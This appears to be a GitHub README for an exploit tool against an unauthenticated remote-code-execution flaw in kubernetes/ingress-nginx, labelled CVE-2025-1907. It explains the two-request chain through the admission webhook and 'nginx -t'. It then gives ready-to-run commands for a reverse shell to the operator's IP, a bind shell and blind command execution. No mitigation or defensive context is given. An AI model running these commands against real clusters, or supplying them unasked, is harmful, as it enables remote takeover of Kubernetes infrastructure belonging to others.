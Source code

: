 # Ingress Nightmare CVE-2025-1907

## Description

This vulnerability allows remote attackers to execute arbitrary 
code on affected installations of kubernetes/ingress-nginx.
Authentication is not required to exploit this vulnerability.
The specific flaw exists within the handling of HTTP requests.

It is triggered by sending two request. One is a long buffered 
request to the NGINX server in same pod, then nginx will cache
it as a temporary file. The second request is a request to the
admission validating webhook server, which will trigger the 
admission webhook to write a temporary nginx config which contains
the `ssl_engine badso_location;` directive. Then the admission 
webhook will run `nginx -t` to check the config, which will 
triggered remote code execution in the context of the NGINX server.

## Exploitation

```bash
# reverse shell 
./ingressnightmare -m r -r ${ur_ip} -p ${port} -i ${INGRESS} -u ${UPLOADER} 

# bind shell # maybe lost?
./ingressnightmare -m b -b ${port} -i ${INGRESS} -u ${UPLOADER} 

# blind command execution
./ingressnightmare -m c  -c 'date >> /tmp/pwn; echo eson pwn >> /tmp/pwn' -i ${INGRESS} -u ${UPLOADER} 
```

https://github.com/user-attachments/assets/415d6b81-b907-4aaa-bd99-18640bd64b2b


